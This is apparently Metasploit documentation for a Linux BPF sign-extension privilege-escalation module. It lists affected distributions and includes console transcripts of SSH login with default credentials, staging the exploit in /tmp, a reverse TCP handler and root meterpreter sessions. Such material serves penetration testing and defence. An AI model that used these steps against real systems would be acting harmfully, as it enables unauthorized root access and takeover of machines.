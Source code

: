 ## Vulnerable Application

  Linux kernel prior to 4.14.8 utilizes the Berkeley Packet Filter (BPF)
  which contains a vulnerability where it may improperly perform sign
  extension. This can be utilized to escalate privileges.

  The target system must be compiled with BPF support and must not have
  `kernel.unprivileged_bpf_disabled` set to `1`.

  This module has been tested successfully on:

  * Debian 9.0 kernel 4.9.0-3-amd64;
  * Deepin 15.5 kernel 4.9.0-deepin13-amd64;
  * ElementaryOS 0.4.1 kernel 4.8.0-52-generic;
  * Fedora 25 kernel 4.8.6-300.fc25.x86_64;
  * Fedora 26 kernel 4.11.8-300.fc26.x86_64;
  * Fedora 27 kernel 4.13.9-300.fc27.x86_64;
  * Gentoo 2.2 kernel 4.5.2-aufs-r1;
  * Linux Mint 17.3 kernel 4.4.0-89-generic;
  * Linux Mint 18.0 kernel 4.8.0-58-generic;
  * Linux Mint 18.3 kernel 4.13.0-16-generic;
  * Mageia 6 kernel 4.9.35-desktop-1.mga6;
  * Manjero 16.10 kernel 4.4.28-2-MANJARO;
  * Solus 3 kernel 4.12.7-11.current;
  * Ubuntu 14.04.1 kernel 4.4.0-89-generic;
  * Ubuntu 16.04.2 kernel 4.8.0-45-generic;
  * Ubuntu 16.04.3 kernel 4.10.0-28-generic;
  * Ubuntu 17.04 kernel 4.10.0-19-generic;
  * ZorinOS 12.1 kernel 4.8.0-39-generic.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_sign_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing vQIIRofN to /tmp/vQIIRofN.c
  [*] Max line length is 65537
  [*] Writing 7797 bytes in 1 chunks of 26837 bytes (octal-encoded), using printf
  [*] Writing iuRJiXBf to /tmp/iuRJiXBf
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003869aa00
  [*] uidptr = ffff8800354fb244
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vQIIRofN.c
  [+] Deleted /tmp/vQIIRofN
  [+] Deleted /tmp/iuRJiXBf
  
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  ```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [-] gcc is not installed.  Compiling will fail.
  [*] Dropping pre-compiled exploit on system
  [*] Writing vsQTwocG to /tmp/vsQTwocG
  [*] Max line length is 65537
  [*] Writing 14040 bytes in 1 chunks of 36802 bytes (octal-encoded), using printf
  [*] Writing JDQDHtEG to /tmp/JDQDHtEG
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003a8a3800
  [*] uidptr = ffff88003d276304
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vsQTwocG
  [+] Deleted /tmp/JDQDHtEG
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```

### Debian 9.0 (x86_64)

  ```
  msf5 > use exploit/linux/local/bpf_sign_extension_priv_esc 
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set compile False
  compile => False
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.JBJBxoEO' (34784 bytes) ...
  [*] Writing '/tmp/.1pZhL1gc' (207 bytes) ...
  [*] Launching exploit ...
  [*] Sending stage (861480 bytes) to 172.16.191.236
  [*] Cleaning up /tmp/.1pZhL1gc and /tmp/.JBJBxoEO ...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-9-0-x64.local
  OS           : Debian 9.4 (Linux 4.9.0-3-amd64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```
